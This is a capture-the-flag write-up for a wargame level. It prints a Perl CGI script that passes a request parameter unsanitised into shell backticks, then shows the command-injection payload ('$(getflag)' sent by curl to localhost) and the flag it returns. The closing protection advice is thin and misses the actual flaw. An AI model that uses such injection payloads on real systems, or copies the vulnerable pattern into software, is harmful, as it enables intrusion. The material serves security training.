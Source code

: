 # Level04

### Tools


### How to solve it

1. After loging in using ssh in level04@(vmIP): 
```
ssh level04@000.000.000.000 -p 4242
```
2. We use the ls command and it shows level03 file
```
level04.pl
```
3. Then we run it and it only print a string on the screen, then we cat it and we see the script:
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));Exploit me
```
4. Analyzing this program we can get this info:
```
This is a perl progra
When executing it works with a subprocess x
The sub x take the parameters and get the first string of it[$_[0]
The echo function with rediction of the output from stdin to stdout print the result of the executed command
```
5. After analyzing that, we try
```
curl localhost:4747?x=testing
```
6. So now we know that this program is being executed and getting x value.
7. We want to run a program using this script so we use the command $(getflag) we have multiple ways of doint it 
```
curl localhost:4747?x='$(getflag)' or curl 'http://localhost:4747/?x=$(getflag)'
```
8. And Boom:
```
ne2searoevaevoem4ov4ar8ap

```
### How to protect
 - Once someone is inside your system and if you do not monitor it it's because you failed before,  one additional proction would be implemeting passowords in important files

